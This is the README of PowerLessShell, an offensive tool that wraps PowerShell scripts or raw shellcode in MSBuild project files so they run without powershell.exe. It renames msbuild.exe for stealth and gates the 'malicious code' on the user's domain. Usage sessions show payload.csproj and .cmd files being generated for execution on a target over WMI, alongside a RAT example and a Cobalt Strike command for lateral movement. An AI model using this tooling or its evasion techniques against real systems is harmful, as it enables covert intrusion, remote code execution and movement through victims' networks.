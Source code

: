 # PowerLessShell

PowerLessShell rely on MSBuild.exe to remotely execute PowerShell scripts and commands without spawning powershell.exe. 
You can also execute raw shellcode using the same approach.

To add another layer of crap the payload will copy msbuild.exe to something random and build the payload using the randomly generated binary.

* You can provide -knownprocess switch to use known Windows process name instead of renaming MsBuild.exe to something random

# MSBuild conditions 

MSBuild support condition that can be used to avoid running code if the condition is not met.

```
<Target Name="x" Condition="'$(USERDOMAIN)'=='RingZer0'">
```

The malicious code will only be executed if the current user domain is "RingZer0"

Condition supports several other formats that can be used to create more conditional execution check.

```
<Target Name="x" Condition="'$(registry:HKEY_LOCAL_MACHINE\blah@blah)'>='0'">
```

Property Functions also expose interesting data.

```
https://docs.microsoft.com/en-us/visualstudio/msbuild/property-functions
```

# Usage

Raw shellcode
```
$ python PowerLessShell.py


PowerLessShell - Remain Stealth
         More PowerShell Less Powershell.exe - Mr.Un1k0d3r RingZer0 Team
            ___
        .-"; ! ;"-.
      .'!  : | :  !`.
     /\  ! : ! : !  /\
    /\ |  ! :|: !  | /\
   (  \ \ ; :!: ; / /  )
  ( `. \ | !:|:! | / .' )
  (`. \ \ \!:|:!/ / / .')
   \ `.`.\ |!|! |/,'.' /
    `._`.\\!!!// .'_.'
       `.`.\|//.'.'
        |`._`n'_.'|
        `----^----"


(Set payload type 'powershell, shellcode')>>> shellcode

(Path to the raw shellcode file)>>> shellcode.raw

(Path for the generated MsBuild out file)>>> payload.csproj

(Set USERDOMAIN condition (Default ''))>>> RingZer0

(Use known process name to perform MsBuild renaming (Default: False))>>>

[+] payload.csproj was generated.
[+] payload.csproj.cmd was generated.
[+] Run the command inside of payload.csproj.cmd on the target system using WMI.
```

Powershell
```
$ python PowerLessShell.py


PowerLessShell - Remain Stealth
         More PowerShell Less Powershell.exe - Mr.Un1k0d3r RingZer0 Team
            ___
        .-"; ! ;"-.
      .'!  : | :  !`.
     /\  ! : ! : !  /\
    /\ |  ! :|: !  | /\
   (  \ \ ; :!: ; / /  )
  ( `. \ | !:|:! | / .' )
  (`. \ \ \!:|:!/ / / .')
   \ `.`.\ |!|! |/,'.' /
    `._`.\\!!!// .'_.'
       `.`.\|//.'.'
        |`._`n'_.'|
        `----^----"


(Set payload type 'powershell, shellcode')>>> powershell

(Path to the PowerShell script)>>> payload.ps1

(Path for the generated MsBuild out file)>>> payload.csproj

(Set USERDOMAIN condition (Default ''))>>>

(Use known process name to perform MsBuild renaming (Default: False))>>>

[+] payload.csproj was generated.
[+] payload.csproj.cmd was generated.
[+] Run the command inside of payload.csproj.cmd on the target system using WMI.
```

Inline command
```
python PowerLessShell.py powershell.ps1 output (optional shellcode, -knownprocess)


PowerLessShell - Remain Stealth
         More PowerShell Less Powershell.exe - Mr.Un1k0d3r RingZer0 Team
            ___
        .-"; ! ;"-.
      .'!  : | :  !`.
     /\  ! : ! : !  /\
    /\ |  ! :|: !  | /\
   (  \ \ ; :!: ; / /  )
  ( `. \ | !:|:! | / .' )
  (`. \ \ \!:|:!/ / / .')
   \ `.`.\ |!|! |/,'.' /
    `._`.\\!!!// .'_.'
       `.`.\|//.'.'
        |`._`n'_.'|
        `----^----"




[+] output was generated.
[+] output.cmd was generated.
[+] Run the command inside of output.cmd on the target system using WMI.
```

# Example

The following example is running the RC4 RAT https://github.com/Mr-Un1k0d3r/RC4-PowerShell-RAT without running a single instance of PowerShell

![PowerLessShell](https://ringzer0team.com/powershellless.png)

# Cobalt Strike Aggressor script (wmi_msbuild.cna) By MrT-F

cd into your cobalt strike client directory
```
cd /root/cobaltstrike
```
Clone this repository into folder PowerLessShell
```
git clone https://github.com/Mr-Un1k0d3r/PowerLessShell.git
```
Load the aggressor script in your Cobalt Strike Console
Laterally move just like other Cobalt Strike macros:
```
wmi_msbuild [target] [listener]
```

# Credit
Mr.Un1k0d3r RingZer0 Team 2017

